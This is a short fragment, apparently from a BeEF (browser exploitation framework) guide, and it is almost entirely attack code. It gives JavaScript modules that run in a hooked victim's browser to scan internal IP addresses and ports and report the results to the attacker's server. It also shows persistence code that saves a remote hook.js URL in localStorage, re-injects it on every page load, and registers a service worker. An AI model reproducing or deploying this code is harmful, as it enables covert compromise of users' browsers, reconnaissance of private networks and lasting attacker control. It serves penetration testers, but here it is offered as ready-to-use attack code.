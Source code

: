 ### Network Pivoting
```javascript
// Internal network scanning
beef.execute(function() {
    var targets = ['192.168.1.1', '192.168.1.100', '10.0.0.1'];
    targets.forEach(function(target) {
        var img = new Image();
        img.onload = function() {
            beef.net.send('/modules/network/ping_sweep', 0, 'target=' + target + '&status=up');
        };
        img.onerror = function() {
            beef.net.send('/modules/network/ping_sweep', 0, 'target=' + target + '&status=down');
        };
        img.src = 'http://' + target + ':80/favicon.ico?t=' + Math.random();
    });
});

// Port scanning
beef.execute(function() {
    var host = '192.168.1.100';
    var ports = [21, 22, 23, 25, 53, 80, 110, 143, 443, 993, 995];
    
    ports.forEach(function(port) {
        var ws = new WebSocket('ws://' + host + ':' + port);
        ws.onopen = function() {
            beef.net.send('/modules/network/port_scan', 0, 
                'host=' + host + '&port=' + port + '&status=open');
            ws.close();
        };
        ws.onerror = function() {
            beef.net.send('/modules/network/port_scan', 0, 
                'host=' + host + '&port=' + port + '&status=closed');
        };
    });
});
```

### Persistence Techniques
```javascript
// Local storage persistence
beef.execute(function() {
    localStorage.setItem('beef_hook', 'http://192.168.1.100:3000/hook.js');
    
    // Re-inject on page load
    window.addEventListener('load', function() {
        var hookUrl = localStorage.getItem('beef_hook');
        if (hookUrl) {
            var s = document.createElement('script');
            s.src = hookUrl;
            document.head.appendChild(s);
        }
    });
});

// Service worker persistence
beef.execute(function() {
    if ('serviceWorker' in navigator) {
        navigator.serviceWorker.register('/sw.js').then(function(registration) {
            registration.update();
        });
    }
});
```
